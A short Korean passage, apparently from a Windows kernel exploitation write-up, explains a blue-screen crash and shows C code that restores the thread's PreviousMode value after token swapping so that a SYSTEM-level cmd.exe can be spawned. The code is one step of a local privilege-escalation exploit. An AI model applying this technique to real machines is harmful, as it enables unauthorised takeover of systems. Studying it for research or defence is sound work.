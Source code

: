 ![image.png](ko/image%209.png)

BSOD가 떠버렸네요.. ??

문제는 PreviousMode를 커널모드로 변조한 뒤 시스템 권한으로 프로세스를 생성하려고 할 때 발생합니다. Token Swapping을 한 이후에는 커널모드 PreviousMode가 필요 없으니 cmd 프로세스 생성 전에 원래 값인 1로 복원하는 과정이 있어야 크래시가 발생하지 않고 프로세스를 생성할 수 있습니다.

```c
	char* restoreBuffer = (char*)malloc(sizeof(CHAR));
	*restoreBuffer = 1;
	
	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)KTHREAD + 0x232, (PVOID)restoreBuffer, sizeof(CHAR), &dwbytes);
	system("cmd.exe");
```

위 코드를 추가해 다시 해보면..
